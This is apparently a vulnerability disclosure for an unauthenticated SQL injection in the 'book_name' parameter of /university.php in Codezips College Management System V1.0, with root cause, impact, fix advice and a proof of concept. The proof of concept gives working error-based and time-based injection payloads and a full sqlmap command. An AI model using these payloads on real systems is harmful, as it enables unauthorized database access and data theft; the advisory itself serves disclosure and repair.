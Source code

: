 # <font style="color:rgb(31, 35, 40);">Codezips College Management System In PHP With Source Code V1.0 /university.php SQL injection</font>
# NAME OF AFFECTED PRODUCT(S)
+ College Management System In PHP With Source Code

## Vendor Homepage
+ [homepage](https://codezips.com/php/college-management-system/)

# AFFECTED AND/OR FIXED VERSION(S)
## submitter
+ WeQi

## Vulnerable File
+ /university.php

## Vulnerability location:
+ 'book_name' parameter

## VERSION(S)
+ V1.0

## Software Link
+ [Download Source Code](https://codeload.github.com/codezips/college-mgmt-php/zip/master)

# PROBLEM TYPE
## Vulnerability Type
+ SQL injection

## Root Cause
+ A SQL injection vulnerability was found in the '/university.php' file of the 'College Management System In PHP With Source Code' project. The reason for this issue is that attackers inject malicious code from the parameter 'book_name' and use it directly in SQL queries without the need for appropriate cleaning or validation. This allows attackers to forge input values, thereby manipulating SQL queries and performing unauthorized operations.

## Impact
+ Attackers can exploit this SQL injection vulnerability to achieve unauthorized database access, sensitive data leakage, data tampering, comprehensive system control, and even service interruption, posing a serious threat to system security and business continuity.

# DESCRIPTION
+ During the security review of "College Management System In PHP With Source Code", WeQi discovered a critical SQL injection vulnerability in the "/university.php" file. This vulnerability stems from insufficient user input validation of the 'book_name' parameter, allowing attackers to inject malicious SQL queries. Therefore, attackers can gain unauthorized access to databases, modify or delete data, and access sensitive information. Immediate remedial measures are needed to ensure system security and protect data integrity.

# No login or authorization is required to exploit this vulnerability
# Vulnerability details and POC
## Vulnerability type:
+ boolean-based blind
+ time-based blind

## Payload:
```plain
Parameter: book_name (POST)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: book_name=111'||(SELECT 0x6f576a4a WHERE 8599=8599 AND (SELECT 8483 FROM(SELECT COUNT(*),CONCAT(0x71766a7871,(SELECT (ELT(8483=8483,1))),0x717a6b6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a))||'&book_author=111&search_book=

    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: book_name=111'||(SELECT 0x4d676b62 WHERE 6513=6513 AND (SELECT 9836 FROM (SELECT(SLEEP(5)))HmhY))||'&book_author=111&search_book=
```

## The following are screenshots of some specific information obtained from testing and running with the sqlmap tool:
```plain
sqlmap -u "172.20.10.2:8111/university.php" --cookie="PHPSESSID=qfvbiq2ij3or64kmsl65f822ph" --data="book_name=111&book_author=111&search_book=" --batch --level=5 --risk=3 --dbms=mysql --random-agent --tamper=space2comment
```

![](https://cdn.nlark.com/yuque/0/2025/png/38476061/1740730343433-260d94f0-398a-4841-a054-3c10c3c79e5d.png)

# Suggested repair
1. **Use prepared statements and parameter binding:**

Preparing statements can prevent SQL injection as they separate SQL code from user input data. When using prepare statements, the value entered by the user is treated as pure data and will not be interpreted as SQL code.

2. **Input validation and filtering:**

Strictly validate and filter user input data to ensure it conforms to the expected format.

3. **Minimize database user permissions:**

Ensure that the account used to connect to the database has the minimum necessary permissions. Avoid using accounts with advanced permissions (such as' root 'or' admin ') for daily operations.

4. **Regular security audits:**

Regularly conduct code and system security audits to promptly identify and fix potential security vulnerabilities.

